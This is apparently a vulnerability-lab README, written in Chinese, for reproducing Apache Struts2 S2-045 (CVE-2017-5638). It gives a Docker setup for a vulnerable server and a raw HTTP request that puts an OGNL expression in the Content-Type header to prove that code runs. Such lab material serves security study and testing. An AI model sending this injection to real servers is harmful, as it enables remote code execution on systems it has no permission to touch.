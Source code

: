 # S2-045 远程代码执行漏洞（CVE-2017-5638）

影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

漏洞详情: 

 - http://struts.apache.org/docs/s2-045.html
 - https://blog.csdn.net/u011721501/article/details/60768657
 - https://paper.seebug.org/247/

## 漏洞环境

执行如下命令启动struts2 2.3.30：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到上传页面。

## 漏洞复现

直接发送如下数据包，可见`233*233`已成功执行：

```
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data


```

![](1.png)
